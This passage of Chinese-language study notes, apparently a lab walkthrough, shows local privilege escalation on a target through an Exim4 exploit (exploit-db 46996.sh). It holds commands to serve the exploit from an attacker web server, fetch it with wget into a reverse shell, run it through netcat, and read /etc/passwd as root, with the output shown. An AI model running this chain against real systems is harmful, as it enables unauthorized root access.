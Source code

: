 ![image-20240824155054838](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824155054838.png)

- 看看版本号

```
/usr/sbin/exim4 --vsersion
```

![image-20240824155236381](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824155236381.png)

- 搜索命令查看可以`提权的方法`

```cmd
searchsploit exim 4
```

![image-20240824155619516](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824155619516.png)

- 使用`46996.sh`方式提权

- 首先启动`apache服务`

![image-20240824155832246](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824155832246.png)

- 将攻击脚本文件复制到Apache服务的根目录`/var/www/html`下

```
cp /usr/share/exploitdb/exploits/linux/local/46996.sh /var/www/html/exp.sh
```

![image-20240824160138708](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824160138708.png)

- 使用`vi`命令修改`exp.sh`

![image-20240824160454347](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824160454347.png)

```
//将靶机反弹回来的shell处使用命令
cd /tmp
wget http://192.168.21.129/exp.sh
```

![image-20240824172021051](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824172021051.png)

- 使用`chmod +x exp.sh`赋予权限
- 使用`./exp.sh -m netcat`来执行命令

![image-20240824172153951](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824172153951.png)

![image-20240824172518342](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824172518342.png)

- 通过root权限查看敏感信息`cat /etc/passwd`

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```